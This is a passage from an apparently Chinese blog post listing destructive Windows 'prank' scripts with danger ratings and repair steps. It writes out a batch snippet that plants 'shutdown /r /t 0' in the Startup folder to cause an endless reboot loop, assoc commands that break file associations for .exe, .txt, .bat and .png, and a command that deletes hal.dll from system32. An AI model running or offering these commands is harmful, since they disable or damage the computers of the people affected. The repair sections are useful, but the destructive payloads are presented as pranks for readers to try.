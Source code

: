> 

```powershell
:: 切换到快速启动目录
cd "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup"
:: 添加命令到文件
echo shutdown /r /t 0 >> haha.bat
:: 重启
shutdown /r /t 0
```

### 修复

 1. 在某次启动中强制关机，进入安全恢复页面，选择安全模式进入。![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/bb8ba850452343fbab6bdc791eb29c27.png)
 2. 等候片刻，进入后，在“运行”窗口内输入`shell:startup`。删除里面的`haha.bat`。![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/c09ba413309f4443a9ba200ac2da7b8b.png)
 3. 重启即可，修复完成。

## TOP 5：对文件关联搞破坏
> 语言： 记事本
> 工具：记事本
> 危险系数：2.0
> 运行效果：
> ![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/893b6ea26dee40ffb3060eae3169b469.png)


```cpp
assoc .exe=txtfile
assoc .txt=exefile
assoc .bat=exefile
assoc .png=exefile

:: ......
```

### 修复
建议再写回去，修改`ftype`。

## TOP 4：XP系统下删除核心链接库
> 语言：Windows 批处理
> 工具：命令提示符
> 危险系数：3.0
> 运行效果：![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/c131b4faf9f341128972b6d511832d9c.png)![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/a607bea80f05418784cd9c8a5298a1cf.png)

```powershell
del /q /s /f C:\WINDOWS\system32\hal.dll
```

### 修复
建议在PE里从原版镜像里面复制一个出来，放到`%windir%\system32`下。
